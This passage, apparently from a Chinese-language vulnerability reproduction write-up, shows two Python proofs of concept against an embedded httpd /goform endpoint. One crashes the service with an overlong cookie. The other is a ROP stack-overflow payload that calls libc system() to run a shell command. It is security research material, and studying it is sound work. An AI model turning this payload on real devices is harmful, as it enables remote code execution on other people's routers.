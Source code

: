 

poc

```
import requests
ip = "192.168.136.139" 
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookir":"password="+"A"*501}
ret = requests.get(url=url,cookies=cookie)
print ret.text
```

现在运行我们的poc

![image-20201223132521840](../../img/image-20201223132521840.png)

可以看到我们的httpd服务停止了
发生了段错误（segmentation fault）

证明漏洞存在

然后再来一个hello的poc

```
import requests
from pwn import *

cmd="echo hello"
libc_base = 0xff5d5000
system_offset = 0x0005a270
system_addr = libc_base + system_offset
gadget1 = libc_base + 0x00018298
gadget2 = libc_base + 0x00040cb8

#444个“A”和“.png”组成偏移量448
payload = "A"*444 +".png" + p32(gadget1) + p32(system_addr) + p32(gadget2) + cmd

url = "http://192.168.2.108/goform/xxx"
cookie = {"Cookie":"password="+payload}
requests.get(url=url, cookies=cookie)
```
